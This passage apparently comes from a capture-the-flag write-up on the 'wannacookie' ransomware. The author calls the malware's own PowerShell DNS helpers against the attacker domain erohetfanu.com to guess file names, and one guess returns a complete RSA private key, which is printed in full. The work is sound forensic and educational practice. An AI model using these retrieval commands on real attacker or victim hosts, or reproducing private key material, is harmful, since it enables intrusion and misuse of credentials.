 
**So, now what?**

We don't have the AES key, in the memory dump maybe we can find `$p_k_e_k` which is the AES key encrypted with the attacker's publick key.

But even if we are able to found it, we could not decrypt `$p_k_e_k` without the attacker private key.

Now, the malware and all of its components are available via dns by requesting the the hex that corresponds to the file name (`wannacookie.min.ps1`, `server.crt`, `source.min.html`)... maybe the key itself is hidden there?

Let's try some standard key names:

```
$(g_o_dns (A2H "private.key"))
+ ... ::ToInt32($(Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfa ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : FormatException
 

$(g_o_dns (A2H "server.pem"))
+ ... ::ToInt32($(Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfa ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : FormatException
 

$(g_o_dns (A2H "server.key"))
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDEiNzZVUbXCbMG
L4sM2UtilR4seEZli2CMoDJ73qHql+tSpwtK9y4L6znLDLWSA6uvH+lmHhhep9ui
W3vvHYCq+Ma5EljBrvwQy0e2Cr/qeNBrdMtQs9KkxMJAz0fRJYXvtWANFJF5A+Nq
jI+jdMVtL8+PVOGWp1PA8DSW7i+9eLkqPbNDxCfFhAGGlHEU+cH0CTob0SB5Hk0S
TPUKKJVc3fsD8/t60yJThCw4GKkRwG8vqcQCgAGVQeLNYJMEFv0+WHAt2WxjWTu3
HnAfMPsiEnk/y12SwHOCtaNjFR8Gt512D7idFVW4p5sT0mrrMiYJ+7x6VeMIkrw4
tk/1ZlYNAgMBAAECggEAHdIGcJOX5Bj8qPudxZ1S6uplYan+RHoZdDz6bAEj4Eyc
0DW4aO+IdRaD9mM/SaB09GWLLIt0dyhRExl+fJGlbEvDG2HFRd4fMQ0nHGAVLqaW
OTfHgb9HPuj78ImDBCEFaZHDuThdulb0sr4RLWQScLbIb58Ze5p4AtZvpFcPt1fN
6YqS/y0i5VEFROWuldMbEJN1x+xeiJp8uIs5KoL9KH1njZcEgZVQpLXzrsjKr67U
3nYMKDemGjHanYVkF1pzv/rardUnS8h6q6JGyzV91PpLE2I0LY+tGopKmuTUzVOm
Vf7sl5LMwEss1g3x8gOh215Ops9Y9zhSfJhzBktYAQKBgQDl+w+KfSb3qZREVvs9
uGmaIcj6Nzdzr+7EBOWZumjy5WWPrSe0S6Ld4lTcFdaXolUEHkE0E0j7H8M+dKG2
Emz3zaJNiAIX89UcvelrXTV00k+kMYItvHWchdiH64EOjsWrc8co9WNgK1XlLQtG
4iBpErVctbOcjJlzv1zXgUiyTQKBgQDaxRoQolzgjElDG/T3VsC81jO6jdatRpXB
0URM8/4MB/vRAL8LB834ZKhnSNyzgh9N5G9/TAB9qJJ+4RYlUUOVIhK+8t863498
/P4sKNlPQio4Ld3lfnT92xpZU1hYfyRPQ29rcim2c173KDMPcO6gXTezDCa1h64Q
8iskC4iSwQKBgQCvwq3f40HyqNE9YVRlmRhryUI1qBli+qP5ftySHhqy94okwerE
KcHw3VaJVM9J17Atk4m1aL+v3Fh01OH5qh9JSwitRDKFZ74JV0Ka4QNHoqtnCsc4
eP1RgCE5z0w0efyrybH9pXwrNTNSEJi7tXmbk8azcdIw5GsqQKeNs6qBSQKBgH1v
sC9DeS+DIGqrN/0tr9tWklhwBVxa8XktDRV2fP7XAQroe6HOesnmpSx7eZgvjtVx
moCJympCYqT/WFxTSQXUgJ0d0uMF1lcbFH2relZYoK6PlgCFTn1TyLrY7/nmBKKy
DsuzrLkhU50xXn2HCjvG1y4BVJyXTDYJNLU5K7jBAoGBAMMxIo7+9otN8hWxnqe4
Ie0RAqOWkBvZPQ7mEDeRC5hRhfCjn9w6G+2+/7dGlKiOTC3Qn3wz8QoG4v5xAqXE
JKBn972KvO0eQ5niYehG4yBaImHH+h6NVBlFd0GJ5VhzaBJyoOk+KnOnvVYbrGBq
UdrzXvSwyFuuIqBlkHnWSIeC
-----END PRIVATE KEY-----
```
